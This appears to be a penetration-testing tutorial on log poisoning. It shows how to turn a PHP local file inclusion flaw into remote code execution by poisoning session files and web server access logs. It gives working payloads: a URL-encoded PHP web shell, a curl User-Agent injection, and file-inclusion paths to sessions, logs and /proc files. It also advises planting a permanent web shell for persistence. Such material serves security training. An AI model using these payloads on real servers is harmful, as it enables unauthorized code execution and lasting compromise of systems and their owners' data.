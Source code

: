 # Log Poisoning

Log poisoning is a technique that exploits vulnerabilities in web applications by injecting malicious PHP code into log files. This code can then be executed through file inclusion vulnerabilities, allowing attackers to gain remote code execution. This section covers the methods of log poisoning, focusing on PHP session poisoning and server log poisoning.

***

### 🔍 PHP Session Poisoning

Most PHP applications use PHPSESSID cookies to manage user sessions, storing session data in files on the server. The session files are typically located in:

* **Linux**: `/var/lib/php/sessions/`
* **Windows**: `C:\Windows\Temp\`

#### Steps for PHP Session Poisoning

1.  **Identify the PHPSESSID Cookie**: Check the cookie value in your browser. For example, if the cookie is `nhhv8i0o6ua4g88bkdl9u1fdsd`, the session file will be located at:

    ```plaintext
    /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
    ```
2.  **Include the Session File**: Use the LFI vulnerability to view the session file's contents:

    {% code overflow="wrap" %}
    ```plaintext
    http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
    ```
    {% endcode %}
3.  **Modify the Session Data**: Change the `page` value in the session file by visiting:

    ```plaintext
    http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
    ```
4.  **Poison the Session File**: Write PHP code to the session file by URL encoding the PHP web shell:

    {% code overflow="wrap" %}
    ```plaintext
    http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
    ```
    {% endcode %}
5.  **Execute Commands**: Include the session file again to execute commands:

    {% code overflow="wrap" %}
    ```plaintext
    http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
    ```
    {% endcode %}

***

### 📜 Server Log Poisoning

Both Apache and Nginx maintain log files that can be exploited for log poisoning. The access logs contain information about requests, including the User-Agent header, which can be manipulated.

#### Steps for Server Log Poisoning

1.  **Include the Log File**: Attempt to read the Apache access log:

    ```plaintext
    http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
    ```
2.  **Modify the User-Agent Header**: Use Burp Suite or cURL to set a custom User-Agent that contains PHP code:

    <pre class="language-bash"><code class="lang-bash"><strong>echo -n "User-Agent: &#x3C;?php system(\$_GET['cmd']); ?>" > Poison
    </strong>curl -s "http://&#x3C;SERVER_IP>:&#x3C;PORT>/index.php" -H @Poison
    </code></pre>
3.  **Execute Commands**: Include the log file again to execute commands:

    ```plaintext
    http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id
    ```

#### Additional Techniques

*   **Accessing Other Logs**: If you have read access to other logs, such as:

    * `/var/log/sshd.log`
    * `/var/log/mail`
    * `/var/log/vsftpd.log`

    You can attempt to poison these logs similarly by injecting PHP code into parameters that get logged.
*   **Using Process Files**: If log access is restricted, you can try including process files like:

    ```plaintext
    /proc/self/environ
    /proc/self/fd/N
    ```

    where `N` is a PID.

***

### ⚠️ Important Considerations

* **Log Size**: Be cautious when including large log files, as they may crash the server or take a long time to load.
* **Permissions**: Ensure you have the necessary permissions to read the logs or session files.
* **Persistence**: Consider writing a permanent web shell to the web directory for easier access in future interactions.

By understanding and exploiting log poisoning techniques, security professionals can better protect against these vulnerabilities and ensure the integrity of web applications.
